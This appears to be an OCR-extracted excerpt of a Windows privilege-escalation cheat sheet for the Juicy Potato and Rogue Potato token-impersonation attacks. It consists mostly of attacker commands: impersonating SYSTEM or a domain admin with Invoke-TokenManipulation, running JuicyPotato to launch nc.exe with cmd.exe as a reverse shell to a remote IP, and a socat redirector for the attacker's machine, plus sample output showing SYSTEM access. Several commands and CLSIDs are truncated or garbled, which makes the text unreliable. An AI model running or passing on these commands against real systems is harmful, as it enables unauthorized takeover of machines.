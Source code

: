 #### Juicy Potato (Abusing the golden privileges)

**If the machine is >= Windows 10 1809 & Windows Server 2019 - Try Rogue Potato**

**If the machine is < Windows 10 1809 < Windows Server 2019 - Try Juicy Potato**

**Binary available at : ohpe/juicy-potato**

**1. Check the privileges of the service account, you should look for SeImpersonate and/or**

**SeAssignPrimaryToken (Impersonate a client after authentication)**

```
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"
```

```
whoami /priv
```

**2. Select a CLSID based on your Windows version, a CLSID is a globally unique identifier that**

**identifies a COM class object**

**Windows 7 Enterprise**

**Windows 8.1 Enterprise**

**Windows 10 Enterprise**

**Windows 10 Professional**

**Windows Server 2008 R2 Enterprise**

**Windows Server 2012 Datacenter**

**Windows Server 2016 Standard**

**3. Execute JuicyPotato to run a privileged command.**

#### Rogue Potato (Fake OXID Resolver)

**Binary available at antonioCoco/RoguePotato**

```
JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe"
JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7- 01 a1- 40 aa- 86
JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6- 9994 -
Testing {F7FD3FD6- 9994 - 452 D- 8 DA7- 9 A8FD87AEEF4} 1337
......
[+] authresult 0
{F7FD3FD6- 9994 - 452 D- 8 DA7- 9 A8FD87AEEF4};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
```

```
# Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
socat tcp-listen: 135 ,reuseaddr,fork tcp:10.0.0.3: 9999
```
